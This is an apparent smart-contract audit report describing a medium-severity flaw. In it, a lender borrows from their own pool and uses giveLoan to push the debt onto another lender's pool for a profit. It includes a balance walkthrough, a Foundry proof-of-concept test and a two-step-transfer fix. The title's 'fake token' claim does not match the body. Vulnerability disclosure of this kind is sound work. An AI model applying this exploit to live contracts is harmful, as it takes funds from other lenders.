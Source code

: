 # M-01 Malicious lender can seize borrowers collateral by using fake token

## Severity

Medium

## Summary

Lender can borrow from his own pool. When he does that, he can give loan to other pool. Giving away the loan adds debt amount - fee to his pool balance. After withdrawing he has his initial pool balance + debt - fee. This can be profitable when tokens gained have higher value then collateral lost.

## Vulnerability Details

There is no check that lender can't borrow from his pool. If there was, he could create second address. If conditions are satisfied, this malicious lender can give the loan to other pool, withdraw and end up with more loan tokens than he started with.

Lender starts with 100,000.
Wallet balance: 100,000

Pool is deployed.
Pool balance: 100,000
Wallet balance: 0
Debt: 0

Lender borrows 100.
Pool balance: 99,900
Wallet balance: 100
Debt: 100

Lender gives away the loan.
Pool balance: 99,999.5
Wallet balance: 100
Debt: 0

Lender withdraws.
Wallet balance: 100,099.5

Lender profited 99.5 tokens. When those tokens are more valuable than collateral lost in the process, he gained value. 

### POC

Simplified POC was created to demonstrate the flow. It can be run by code below in Lender.t.sol.

```
forge test --match-contract LenderTest --match-test test_stealFromOtherPool
```

```solidity
function test_stealFromOtherPool() public {
    address attacker = address(0x5);
    loanToken.mint(address(attacker), 100000*10**18);
    collateralToken.mint(address(attacker), 100000*10**18);

    // lender creates a pool
    vm.startPrank(lender1);
    Pool memory pLender = Pool({
        lender: lender1,
        loanToken: address(loanToken),
        collateralToken: address(collateralToken),
        minLoanSize: 100*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 lenderPoolId = lender.setPool(pLender);
    vm.stopPrank();

    // attacker creates same pool as lender
    vm.startPrank(attacker);
    loanToken.approve(address(lender), 1000000*10**18);
    uint attackerLoanTokenBefore = loanToken.balanceOf(attacker);
    Pool memory pAttacker = Pool({
        lender: attacker,
        loanToken: address(loanToken),
        collateralToken: address(collateralToken),
        minLoanSize: 100*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 attackerPoolId = lender.setPool(pAttacker);

    // attacker borrows from his pool
    collateralToken.approve(address(lender), 1000000*10**18);
    Borrow memory b = Borrow({
        poolId: attackerPoolId,
        debt: 100*10**18,
        collateral: 100*10**18
    });
    Borrow[] memory borrows = new Borrow[](1);
    borrows[0] = b;
    lender.borrow(borrows);

    // attacker gives loan to lender
    uint256[] memory loanIds = new uint256[](1);
    loanIds[0] = 0;
    bytes32[] memory poolIds = new bytes32[](1);
    poolIds[0] = lenderPoolId;

    lender.giveLoan(loanIds, poolIds);

    // attacker withdraws from his pool
    (,,,,uint256 poolBalance,,,,) = lender.pools(attackerPoolId);
    lender.removeFromPool(attackerPoolId, poolBalance);

    vm.stopPrank();

    // attacker profits
    uint attackerLoanTokenAfter = loanToken.balanceOf(attacker);
    assert(attackerLoanTokenAfter > attackerLoanTokenBefore);
}
```

## Impact

Malicious lender can profit from other lenders by giving them his loans from his pool. Other lenders can't defend themselves against such practices.

## Tools Used

Manual review

## Recommendations

Add two-step transfer to giveLoan feature. First, lender sends transaction to give loan away. The receiving lender would have to send his transaction to accept this loan.